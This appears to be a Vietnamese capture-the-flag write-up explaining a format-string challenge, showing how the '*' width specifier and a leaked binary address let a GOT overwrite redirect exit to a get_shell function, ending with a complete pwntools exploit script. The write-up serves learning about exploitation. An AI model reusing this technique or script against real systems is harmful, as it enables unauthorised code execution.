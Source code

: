 # Format String - Định dạng con "*"

***1 kiến thức mới trong fmtstr***

ida:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/16af1bb5-3633-403d-9e44-c95a5e996ed0)



![image](https://github.com/gookoosss/CTF.-/assets/128712571/0d736f89-5ef5-426b-b29e-14980b76eab3)


**để ý thì ko có lỗi BOF, chỉ có lỗi fmtstr, kết thúc hàm main bằng exit nên ret2libc là ko thể**

checks:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/52ac73b6-e618-48fb-875e-18d3b2869f0e)


đọc ida ta thấy **có 3 lần nhập receiver, title, content**, h ta sẽ khai thác 3 lần nhập:

- **ở lần nhập 1 có lỗi fmtstr** nma đến cuối chương trình mới printf ra, tạm thời ta bỏ qua
- ở lần nhập 2 thì debug ta thấy sau title có 1 địa chỉ rác, **nếu nhập đủ 32byte ta có thể leak được địa chỉ này, từ đó tính offset ra địa chỉ exe**


![image](https://github.com/gookoosss/CTF.-/assets/128712571/46f22503-5810-4af9-872b-0f46ad0d7b86)


![image](https://github.com/gookoosss/CTF.-/assets/128712571/e599b213-07d2-4ff2-9081-f5d323956cca)



- ở lần nhập 3 không khai thác được gì cả

đến đây ta chỉ mới leak được địa chỉ exe 

ta để ý thì thấy **Relro tắt**, đằng sau printf có lỗi **fmtstr** chỉ có **exit()**, mà trong hàm **get_shell** thì lại có hàm  **system("/bin/sh")**, nên ta nhảy số ngay về hướng giải ```tấn công GOT là overwrite exit@got thành get_shell```

![image](https://github.com/gookoosss/CTF.-/assets/128712571/9e4be665-9fa0-436a-a1b8-42c226e9946a)


**địa chỉ got@exit với get_shell chỉ khác nhau 2 byte cuối nên ta có thể in 1 lần luôn**

**vấn đề xảy ra** là ở lần nhập đầu ta nhập cho **receiver có lỗi fmtstr**, nhưng mà tới lần nhập 2 ta mới **leak được địa chỉ của exe**, chương trình thì ko thể lặp lại do có exit, nên tại lần nhập đầu ta ko thể dùng địa chỉ của hàm get_shell bằng **exe.sym['get_shell']** để in ra số byte gần gán và **got@exit** 

**bây giờ ta chỉ có thể sử dụng địa chỉ get_shell tại lần nhập 3**, lúc này ta cần biết 1 kiến thức mới đó con "*"



## Giới thiệu qua về con *

*ví dụ:*

![image](https://github.com/gookoosss/CTF.-/assets/128712571/674e18de-e15c-4d8a-8612-185e0eb30353)



**hiểu đơn giản là * trỏ đến giá trị nào thì nó sẽ in ra số byte bằng với giá trị đó** 

``` ==> Khi không biết được cần phải pad bao nhiêu byte, ta có thể dùng định dạng con "*" giúp in ra số byte mà định dạng trỏ tới. ```

**tới đây ta có hướng giải như sau:**

- lợi dụng lần nhập 3 có thể sử dụng được địa chỉ get shell nên ta sẽ đặt 2 byte cuối get shell lên stack, stack tiếp theo ta đặt địa chỉ got@exit
- lần nhập 1 có fmtstr ta sẽ sử dụng con * để trỏ đến stack chứa 2byte cuối của get shell để in ra số lần đó, từ đó ta có padding để overwrite got@exit thành địa chỉ của get shell

bây giờ ta sẽ debug thử xem sao:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/eb6657ce-a8d7-4972-91c7-16e217b1e4f5)


**trước khi printf thì ta thấy stack 0x040 chứa 2 byte cuối của get_shell là 0xa2b7**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/061167ac-3471-4cab-abd7-b23b5b144157)


**sau khi printf thì got@exit đã trỏ đến địa chỉ của hàm get_shell rồi chứng tỏ ta đã làm đúng rồi đó**

(trong script có note)

**script:**

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fmtstr7_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
p = process([exe.path])

context.binary = exe

gdb.attach(p, gdbscript = '''
b*main+343
c
''')
           
input()

##################################
### stage 1: format string     ###
##################################

payload = b'%*14$c%15$hn'# dùng con * để pad đủ 2 byte cuối của get_shell rồi gán vào 2 byte cuối của exit
p.sendafter(b'Receiver: ', payload)

##################################
### stage 2 : leak exe address ###
##################################

p.sendafter(b'Title: ', b'a'*0x20) # chèn 32byte
p.recvuntil(b'a'*32) # bỏ qua 32byte
exe_leak = u64(p.recv(6) + b'\0\0') # lấy 6byte sau
exe.address = exe_leak - 0x40
log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

#####################################################
### stage 3 : overwrite exit@got into get_shell() ###
#####################################################


payload = p64(exe.sym['get_shell'] & 0xffff) # lấy 2 byte cuối get_shell để vào stack
payload += p64(exe.got['exit']) 
p.sendafter(b'Content: ', payload)

p.interactive()





```



